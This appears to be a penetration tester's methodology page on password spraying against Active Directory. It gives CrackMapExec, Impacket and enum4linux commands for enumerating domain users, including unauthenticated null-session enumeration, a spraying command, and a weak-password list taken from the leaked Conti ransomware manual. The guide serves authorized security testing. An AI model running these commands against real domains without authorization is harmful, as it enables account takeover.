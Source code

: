 ```yaml
---
description: Methodology for performing password spraying attacks against active directory
---
```


# Password Spraying Active Directory

This section contains some of my methodology and tips for performing password spraying attacks against Active Directory. Before spraying, I highly recommend that you first [enumerate the password policy](../../../pentesting/infrastructure/active-directory/password-policy.md) on the domain so that you don't lock out accounts.&#x20;

### Get List of Users

```bash
# Get List of Users with CrackMapExec via RID Cycling (Unauthenticated)
crackmapexec smb $dc -u '' -p '' --users
crackmapexec smb $dc -u '' -p '' --groups

# Get List of Users with CrackMapExec via RID Cycling
crackmapexec smb $dc -u $username -p $password --users

# Get List of Users with Impacket
GetADUsers.py $domain/$username:$password -all -dc-ip $dc

# Get List of Users with Enum4linux
enum4linux $dc -u $username -p $password -U

# Sort Usernames Obtained from Enum4Linux
cat usernameenum.txt | grep "user" | awk {'print $1'} | cut -d '[' -f 2 | cut -d ']' -f 1 | sort -u -f > UsernameList.txt
```

### Spraying

```bash
# Spray with CrackMapExec
crackmapexec smb $ip -u $username_list -p Winter2022! --continue-on-success
```

### Password List

These passwords were referenced from the published [Conti manual](https://github.com/ForbiddenProgrammer/conti-pentester-guide-leak) and often work. This should be an unspoken rule, but ensure that your list is tailored for each engagement (year, month, etc).

```bash
Password1
Hello123
password
Welcome1
Acme@1
training
Password123
job12345
food1234
June2022
July2022
August22
August2022
Summer22
Summer2022
June2022!
July2022!
August22!
August2022!
Summer22!
Summer2022!
```

### References

{% embed url="https://wiki.porchetta.industries/smb-protocol/enumeration/enumerate-null-sessions" %}
